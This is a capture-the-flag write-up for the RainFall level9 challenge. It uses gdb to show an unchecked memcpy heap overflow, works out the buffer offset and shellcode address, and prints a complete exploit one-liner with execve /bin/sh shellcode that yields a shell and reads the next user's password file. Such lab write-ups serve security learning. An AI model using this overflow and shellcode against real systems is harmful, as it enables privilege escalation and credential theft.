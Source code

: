 The `main` function takes one parameter and there is a call to `memcpy` inside `setAnnotation`. The program will copy the values we give as parameter to a memory block without any check.

```
Starting program: /home/user/level9/level9 $(python -c "print 'A' * 200")

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) i r
eax            0x41414141	1094795585
ecx            0x41414141	1094795585
```

The instruction where the Segmentation fault happens is +142, when it wants to access `eax` to store it in `edx` which is then called.

```
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:	mov    eax,DWORD PTR [eax]
=> 0x08048682 <+142>:	mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:	mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:	mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:	mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:	mov    DWORD PTR [esp],eax
   0x08048693 <+159>:	call   edx
```

We need to find the buffer's size, in gdb :

```
Starting program: /home/user/level9/level9 $(python -c 'print "QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKKLLLLZZZZXXXXCCCCVVVVBBBBNNNNNMMMMMQQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKKLLLLZZZZXXXXCCCCVVVVBBBBNNNNNMMMMM"')

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) i r
eax            0x45455757	1162172247
ecx            0x8	8
...
```

The offset is at `108`.
Our goal is to modify the call to `edx` to open a shell. We have hands on the `eax` value that will be copied into `edx`.
We have to find the address where the shellcode will start, write the shellcode, add a padding to complete the buffer and add the address of the beguining of our string. The shell code that would be executed as the next instruction.

```
Breakpoint 1, 0x08048510 in memcpy@plt ()
(gdb) i r
...
edx            0x804a00c	134520844
...
Breakpoint 2, 0x0804867c in main ()
(gdb) i r
eax            0x804a00c	134520844
ecx            0x8	8
edx            0x804a0d8	134521048
ebx            0x804a078	134520952
esp            0xbffff540	0xbffff540
ebp            0xbffff568	0xbffff568
esi            0x0	0
edi            0x0	0
eip            0x804867c	0x804867c <main+136>
...
```

Our instruction will start at `0x804a00c` and our [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.php) (28 bytes) will beguin at the address `0x804a00c + 4 bytes`.

```
>>> int('0x804a00c', 16) + 4
134520848
>>> hex(134520848)
'0x804a010'
```

```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73" + "\x68\x68\x2f\x62\x69\x6e\x89" + "\xe3\x89\xc1\x89\xc2\xb0\x0b" + "\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
```



